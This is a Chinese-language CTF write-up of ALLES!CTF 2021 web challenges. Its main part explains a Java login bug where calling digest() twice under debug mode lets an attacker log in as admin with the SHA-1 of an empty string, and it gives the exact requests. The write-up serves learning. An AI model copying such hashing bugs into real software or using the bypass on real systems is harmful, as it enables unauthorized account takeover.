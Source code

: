 # Sanity Check

进入之后发现是个奇怪的页面，问我不是机器人叭？

bp抓个包，发现是418响应码，查到的都是说这是一种反爬虫机制，需要加上UA头才行。但是我本来就有UA头。

突发其想请求了一下robots.txt，得到flag。



# J(ust)-S(erving)-P(ages)

当时比赛的时候没能做出来，今天问了一下Y4师傅，也是知道了怎么回事。



首先就是`GlobalServerContext.java`里面，添加了一个`admin`用户，且`isAdmin`是`true`。

然后把`flag`放到了上下文中：

```java
        // Read flag from system
        try (Scanner scanner = new Scanner( new File("/flag"), "ASCII" )) {
            String FLAG = scanner.useDelimiter("\\A").next();
            servletContextEvent.getServletContext().setAttribute("FLAG", FLAG);
        }
```

最后登录之后的`home.jsp`这里做了判断，如果登录的`user isAdmin为true`的话就给flag：

```java
		<% if(user.getIsAdmin()){ 
			ServletContext sc = request.getServletContext();
     		
			out.println("Your flag is: "); 
			out.println(sc.getAttribute("FLAG"));
		}
		else {
			out.println("No flag for you :("); 
		}%>
```

登录后的`/config`这里可以修改上下文：

```java
        String jsonConfig = getBody(request);
        ObjectMapper objectMapper = new ObjectMapper();
        UserConfig userConfig = objectMapper.readValue(jsonConfig, UserConfig.class);

        

        if (userConfig == null) {
            request.setAttribute("message", "Failed to parse user configuration");
            request.setAttribute("type", "danger");
        }
        else if (userConfig.getUser() != null) {
            request.setAttribute("type", "danger");
            request.setAttribute("message", "Hacking detected!");
        }
        else {
            request.setAttribute("type", "success");
            request.setAttribute("message", "User configuration updated");
            session.setAttribute("config", userConfig);
        }
```

但是不能有`user`，而且用的是`jackson`，搜了一下这个版本也没有洞。



问了Y4师傅才知道原来是登录那里的问题：

```java
		for (User u : users) {
			if (u.getUsername().equals(username)) {
				try {
					// User password in storage is only stored as md5, we should hash it again
					MessageDigest digestStorage;
					digestStorage = MessageDigest.getInstance("SHA-1");
					digestStorage.update(u.getPassword().getBytes("ascii"));

					byte[] passwordBytes = null;
					try {
						passwordBytes = Hex.decodeHex(password_md5_sha1);
					} catch (DecoderException e) {
						return null;
					}

					UserConfig userConfig = (UserConfig) request.getSession().getAttribute("config");

					if (userConfig.isDebugMode()) {
						String pw1 = new String(Hex.encodeHex(digestStorage.digest()));
						String pw2 = password_md5_sha1;

						java.util.logging.Logger.getLogger("login")
								.info(String.format("Login tried with: %s == %s", pw1, pw2));
					}

					if (Arrays.equals(passwordBytes, digestStorage.digest())) {
						if (userConfig.isDebugMode())
							java.util.logging.Logger.getLogger("login").info("Passwords were equal");
						return u;
					}
					if (userConfig.isDebugMode())
						java.util.logging.Logger.getLogger("login").info("Passwords were NOT equal");
				} catch (NoSuchAlgorithmException e) {
					return null;
				} catch (UnsupportedEncodingException e) {
					return null;
				}
			}
		}
```

默认的`debug`是关的，但是可以通过`/config`来修改。如果`debug`是开的，就会有这样的结果：

```java
					if (userConfig.isDebugMode()) {
						String pw1 = new String(Hex.encodeHex(digestStorage.digest()));
						String pw2 = password_md5_sha1;

						java.util.logging.Logger.getLogger("login")
								.info(String.format("Login tried with: %s == %s", pw1, pw2));
					}

					if (Arrays.equals(passwordBytes, digestStorage.digest())) {
```

对`digestStorage`调用了两次`digest()`。一开始以为还没问题，但是查一下：

> 对于给定数量的更新数据，`digest` 方法只能被调用一次。`digest` 方法被调用后，MessageDigest 对象被重新设置成其初始状态。

啥叫初始状态，可以认为初始状态就是空字符串，然后经过一次`sha1`处理后得到的就是空字符串的sha1加密：

```java
        MessageDigest digestStorage;
        digestStorage = MessageDigest.getInstance("SHA-1");
        //digestStorage.update(password.getBytes("ascii"));
        byte[] bytes = digestStorage.digest();
```

这样得到的数组就相当于是，对`""`进行一次sha1加密得到的字符串(String)，再对这个字符串进行一次：

```java
					byte[] passwordBytes = null;
					try {
						passwordBytes = Hex.decodeHex(password_md5_sha1);
```

这样得到的byte[]是一样得了，因此就可以用admin登录了。



因此先随便注册登录，然后利用`/config`：

```
POST /config HTTP/1.1

{"debugMode":true,"language":0}
```

然后再登录，用户名是admin，密码是空字符串的sha1加密即可：

```
password=da39a3ee5e6b4b0d3255bfef95601890afd80709&username=admin
```

即可拿到flag：

![image-20210907122704175](ALLES!CTF-2021-Web.assets/image-20210907122704175.png)





# Amazing Crypto WAF

当时没看，之后再复现叭。。。得去学概率论了。。。